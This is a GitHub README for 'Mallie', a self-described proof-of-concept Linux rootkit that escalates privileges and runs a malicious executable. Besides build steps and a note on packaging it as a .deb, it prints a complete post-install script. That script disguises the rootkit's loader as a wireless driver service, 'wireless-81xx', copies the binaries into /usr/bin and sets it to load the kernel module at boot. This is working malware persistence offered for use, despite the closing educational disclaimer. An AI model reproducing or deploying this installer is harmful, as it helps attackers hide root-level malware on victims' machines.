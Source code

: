 # Mallie
A Proof-Of-Concept sample linux rootkit that escalates privilleges for a malicious executable, and launches the malicious executable in user space using usermodehelper.

## TODO
- More features for the rootkit, e.g., hide itself from lsmod .etc
- Use to serve functions for another executable

## Build Instructions
This project is still a work-in-progress, but if you'd like to try it out, feel free to do so.

1. Simply clone the project and make it: ```cd mallie && make```
2. Two files will be created: ```root.ko``` and ```mallie (an ELF executable)```

## Resources
- Create deb package: https://www.internalpointers.com/post/build-binary-deb-package-practical-guide
- Make install script in the deb package using DEBIAN/preinstall same as the DEBIAN/control file

## Auto-Start on Boot Script
1) chmod 755 to the postinst script.

2) Once that is done create a symbolic link in the run level directory you would like to use, for example if you wanted to run a program in the graphical runlevel 2, the default runlevel for Ubuntu, you would place it in the /etc/rc2.d directory. You just cannot place it the directory, you must signify when it will run by indicating the startup with an “S” and the execution order is important. Place it after everything else that is in the directory by giving it a higher number. If the last script to be run is rc.local and it is named S99rc.local then you need to add your script as S99myscript. Symbolic link: `ln -s /etc/init.d/myscript /etc/rc3.d/S99myscript`

```bash

#!/bin/bash
# This `DEBIAN/postinst` script is run post-installation

echo '#!/bin/bash' > /etc/init.d/wireless-81xx
echo '
### BEGIN INIT INFO
# Provides:          mallie
# Required-Start:    $local_fs $network
# Required-Stop:     $local_fs
# Default-Start:     2 3 4 5
# Default-Stop:      0 1 6
# Short-Description: Wireless service
# Description: Autostart wireless drivers
### END INIT INFO

# Carry out specific functions when asked to by the system
case "$1" in
  start)
    echo "Starting..."
    su - root -c "cd /usr/bin/ && insmod ./root.ko"
    ;;
  stop)
    echo "Stopping..."
    sleep 2
    ;;
  *)
    echo "Usage: /etc/init.d/wireless-81xx {start|stop}"
    exit 1
    ;;
esac

exit 0 ' >> /etc/init.d/wireless-81xx

chmod 755 /etc/init.d/wireless-81xx
cp /usr/local/bin/mallie /usr/bin/
cp /usr/local/bin/root.ko /usr/bin/
ln -s /etc/init.d/wireless-81xx /etc/rc3.d/S01wireless-81xx
sh /etc/init.d/wireless-81xx start

```

/etc/init.d/wireless-81xx
```bash
#! /bin/bash

### BEGIN INIT INFO
# Provides:          mallie
# Required-Start:    $local_fs $network
# Required-Stop:     $local_fs
# Default-Start:     2 3 4 5
# Default-Stop:      0 1 6
# Short-Description: Wireless service
# Description: Autostart wireless drivers
### END INIT INFO

# Carry out specific functions when asked to by the system
case "$1" in
  start)
    echo "Starting..."
    su - root -c "cd /usr/bin/ && insmod ./root.ko"
    ;;
  stop)
    echo "Stopping..."
    sleep 2
    ;;
  *)
    echo "Usage: /etc/init.d/wireless-81xx {start|stop}"
    exit 1
    ;;
esac

exit 0

```

## Disclaimer

This is purely for educational purposes. The software is provided "as is" and the authors are not responsible for any damage or mishaps that may occur during its use. Misuse of the provided software and information may result in criminal charges.

## Credits
https://askubuntu.com/questions/290099/how-to-run-a-script-during-boot-as-root <br>
https://gist.github.com/drmalex07/298ab26c06ecf401f66c <br>
https://github.com/xcellerator/linux_kernel_hacking
